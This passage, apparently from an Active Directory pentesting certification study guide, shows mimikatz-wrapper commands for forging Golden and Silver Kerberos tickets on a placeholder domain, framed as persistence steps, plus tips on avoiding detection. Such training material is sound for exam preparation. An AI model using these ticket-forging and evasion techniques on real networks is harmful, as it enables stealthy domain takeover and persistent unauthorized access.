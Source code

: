 2. Create and use Golden Tickets:
   ```bash
   ./mimikatz-wrapper.py local golden -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k hash
   ```

3. Establish persistence using multiple methods:
   ```bash
   # Create Silver tickets for specific services
   ./mimikatz-wrapper.py local silver -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k hash -t server.contoso.local -v cifs
   ```

## Final Tips

1. **Organization is key**: Keep detailed notes of all commands, findings, and credentials.

2. **Leverage automation efficiently**: Start with automated tools, then dig deeper manually where needed.

3. **Be methodical**: 
   - Enumerate thoroughly before attacking
   - Preserve access to compromised systems
   - Document your attack paths

4. **Avoid detection**:
   - Use the stealth options when available
   - Limit noisy scanning activities
   - Be careful with credential dumping on monitored systems

5. **For certification exams**:
   - Review the specific requirements before starting
   - Allocate your time wisely across different phases
   - Document everything for the final report
   - Take screenshots of critical findings

By combining these automated tools with a thorough understanding of Active Directory attack techniques, you'll be well-prepared for the PNPT, CRTS, and C-ADPenX certification exams.
